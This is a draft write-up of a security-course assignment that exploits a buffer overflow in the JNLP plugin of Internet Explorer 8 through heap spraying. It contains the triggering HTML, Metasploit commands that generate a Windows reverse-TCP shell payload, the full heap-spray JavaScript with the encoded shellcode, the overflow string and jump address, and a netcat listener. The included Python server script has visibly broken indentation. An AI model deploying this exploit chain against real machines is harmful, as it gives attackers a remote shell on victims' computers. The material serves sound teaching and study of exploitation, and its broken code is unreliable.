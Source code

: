 # Exploiting a Buffer Overflow Vulnerability in the JNLP plugin within Internet Explorer 8 with using the Heap Spraying Technique
*This is still a draft*

JNLP (Java Network Launch Protocol) enables an application to be launched on a client desktop using resources that are hosted on a remote server. A specific version of JNLP for IE8 is vulnerable to a stack-based buffer overflow: when the plugin is invoked with a **launchjnlp** parameter, it will copy the value of the **docbase** parameter to a stack buffer using `sprintf`, but fails to check the length of the value. 

The vulnerability can be triggered by the following:
```html
<object type='application/x-java-applet'>
<param name='launchjnlp' value='1'>
<param name='docbase' value='AAAAAAAA....AAAAAA'>
</object>
```

## Goal
Input a sufficiently long string in the **docbase** value such that the register $eip gets ovewritten with an address known to contain our NOP sled and shellcode. Said shellcode establishes a reverse TCP connection to another machine.

## How it's done
To demonstrate this vulnerability, a simple web server is set up to listen on port 8080. This web server shows the contents of a specific directory in which the html file (containing the exploit) is located. The html file is clicked from the client and nothing appears to happen, but the truth is that the heap is sprayed with a shellcode! It is not until the client clicks on *Click Me* that at least one the shellcodes in the heap gets executed. This shellcode consists of several NOP operations and a reversed TCP connection to a chosen IP and port. The port used is *6666*, and to simplifly the assignment's grading, the chosen IP is 127.0.0.1, which means that the command prompt will be obtained in the client instead of in the attacker's machine (or Kali, in this case).

## Specifics
1. Two machines are used to demonstrate this vulnerability. A Windows 7 VM (with DEP disabled) acts as the client, and a Kali Linux VM acts as the web server.

2. A Windows shellcode is generated with Metasploit, which is a tool already installed in Kali Linux. The instructions in this shellcode create a reverse TCP connection from said Windows machine to a chosen IP and port. In other words, these instructions would spawn the victim's command prompt in the attacker's machine; but for practicality, the IP chosen as the attacker's IP does not belong to the attacker and it is the victim's machine, 127.0.0.1. Using the attacker's IP will make the demo realistic, but it will not make it easy to the grader of this assignment.

The shellcode is generated as follows:

`msfconsole`

`use payload/windows/shell_reverse_tcp`

`set LHOST 127.0.0.1`

`set LPORT 6666`

`generate -t js_le`

In the last command, **js_le** was used because a JavaScript shellcode is needed and the Windows machine that is targeted uses Little Endian (le).

3. To accept this reverse TCP connection in Windows, the following netcat command is needed:

`nc -l -p 6666`

**-l** specifies that nc should listen for an incoming connection, and **-p** specifies the source port.

4. Windows debugger, WinDBG, is helpful to visualize the stack and heap contents and gather information for the exploit.

5. The script that sets up a web server is provided, and it looks like this:

```python
#!/usr/bin/python
#
# Python Web Server
# Serves only static files
#
# by Saumil Shah

import sys
import BaseHTTPServer
from SimpleHTTPServer import SimpleHTTPRequestHandler

port = 8080

class HandlerClass(SimpleHTTPRequestHandler):
        # Disable DNS lookups
        def address_string(self):
                    return str(self.client_address[0])
                    ServerClass = BaseHTTPServer.HTTPServer
                    Protocol = "HTTP/1.0"
                    server_address = ('0.0.0.0', port)
                    HandlerClass.protocol_version = Protocol
                    httpd = ServerClass(server_address, HandlerClass)
    try:
        sa = httpd.socket.getsockname()
        print "Serving HTTP on", sa[0], "port", sa[1], "..."
        httpd.serve_forever()
    except KeyboardInterrupt:
        print 'Shutting down the web server'
        httpd.socket.close()
```

6. To use the heap spraying technique, a string that follows the pattern "NOP Sled + Shellcode" is created in JavaScript. This string is successfully sprayed in the heap to occupy hundreds of megabytes.

7. Once we know a specific address in the heap contains the beggining of the shellcode, that is, the NOP sled, we can concatenate that address at the end of the input to **docbase** to override $eip, and therefore, be able to jump to the shellcode.

## Steps

1. Test different length inputs for **docbase** to determine the number of bytes needed to override $eip. In this case, 396 will override $eip and nothing more. This means that 392 bytes are needed just before the 4 bytes address that we want to point $eip to. This address will be determined when the heap is sprayed.

2. To spray the heap with the shellcode, an array **a** is initialized and a function **heap_spray()** is specified to populate **a**

```html
<script> 
    var a = new Array();
    function heap_spray() {
   
        var shellcode = unescape("%ue8fc%u0082%u0000%u8960%u31e5%u64c0%u508b%u8b30%u0c52%u528b%u8b14%u2872%ub70f%u264a%uff31%u3cac%u7c61%u2c02%uc120%u0dcf%uc701%uf2e2%u5752%u528b%u8b10%u3c4a%u4c8b%u7811%u48e3%ud101%u8b51%u2059%ud301%u498b%ue318%u493a%u348b%u018b%u31d6%uacff%ucfc1%u010d%u38c7%u75e0%u03f6%uf87d%u7d3b%u7524%u58e4%u588b%u0124%u66d3%u0c8b%u8b4b%u1c58%ud301%u048b%u018b%u89d0%u2444%u5b24%u615b%u5a59%uff51%u5fe0%u5a5f%u128b%u8deb%u685d%u3233%u0000%u7768%u3273%u545f%u4c68%u2677%uff07%ub8d5%u0190%u0000%uc429%u5054%u2968%u6b80%uff00%u50d5%u5050%u4050%u4050%u6850%u0fea%ue0df%ud5ff%u6a97%u6805%u007f%u0100%u0268%u1a00%u890a%u6ae6%u5610%u6857%ua599%u6174%ud5ff%uc085%u0c74%u4eff%u7508%u68ec%ub5f0%u56a2%ud5ff%u6368%u646d%u8900%u57e3%u5757%uf631%u126a%u5659%ufde2%uc766%u2444%u013c%u8d01%u2444%uc610%u4400%u5054%u5656%u4656%u4e56%u5656%u5653%u7968%u3fcc%uff86%u89d5%u4ee0%u4656%u30ff%u0868%u1d87%uff60%ubbd5%ub5f0%u56a2%ua668%ubd95%uff9d%u3cd5%u7c06%u800a%ue0fb%u0575%u47bb%u7213%u6a6f%u5300%ud5ff")

        var nops = unescape("%u9090%u9090");

        while(nops.length <= 0x100000-shellcode.length){
            nops += nops;
        }

        nops += shellcode;

        for(i = 0; i < 200; i++) {
            a[i] = nops;
            a[i].substring(0,1); //This is only used to trick the memory allocator 
        }
    }
    .  
    .
    .
</script>
```
The 0x90 bytes that conform the NOP sled have to be passed to the function **unescape()** to let javascript know that the string is already represented in hex. 

Without the second line within the for loop, the memory allocator fails to spray the heap and only allocates one block.

3. Just below the previous block of code is the following:

```html
<script>
    .
    .
    .
function trigger() {
    var buf = "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA" + "\x95\xff\xda\x09";

    var htmlTags =
    "<object type='application/x-java-applet'>" +
    "<param name='launchjnlp' value='1'>" +
    "<param name='docbase' value='" + buf + "'>" +
    "</object>";

    document.write(htmlTags);
    }
   </script>
</head>
<body onload="heap_spray()">
    <input type="button" value="Click Me" onclick="trigger()">
</body>
```

This means that as soon as we click on the page (jnlp1.html), the heap should be sprayed because of `<body onload="heap_spray">`

Loading that page, and attaching the IE tab with WinDBG, we can search for specific bytes that we know are present in the shellcode. Like this `s 0x00000000 L?0x7FFFFFFF 90 90 90 fc e8 82 00`. This would show all of the addresses that store that set of bytes. I chose x09DAFF95 because it does not contain zeroes, and therefore, will not create null bytes in the input.

We have to make sure that our chosen address contains the NOP sled. Run `dc 09daff95`

![alt text](https://github.com/pwilthew/Systems-Security/blob/master/Heap-Spray/Screen%20Shot%202017-10-08%20at%2018.16.32.png)

3. Now that we have the address to jump to, we can append it to the end of the long string of repeated "A". This will be address that will override the value $eip. To execute the buffer overflow, we have to click on "Click Me," as the function trigger() is called immediately after doing so: `<input type="button" value="Click Me" onclick="trigger()">`

Before clicking, we need to wait for incoming TCP connections in the Windows command prompt (as explain in #3 of **Specifics**).

![alt text](https://github.com/pwilthew/Systems-Security/blob/master/Heap-Spray/Screen%20Shot%202017-10-08%20at%2018.21.55.png)

4. That should be it! The program jumped to the address that contained a shellcode and the shellcode effectively established a TCP connection to the chosen IP (127.0.0.1)

![alt text](https://github.com/pwilthew/Systems-Security/blob/master/Heap-Spray/Screen%20Shot%202017-10-08%20at%2018.21.59.png)


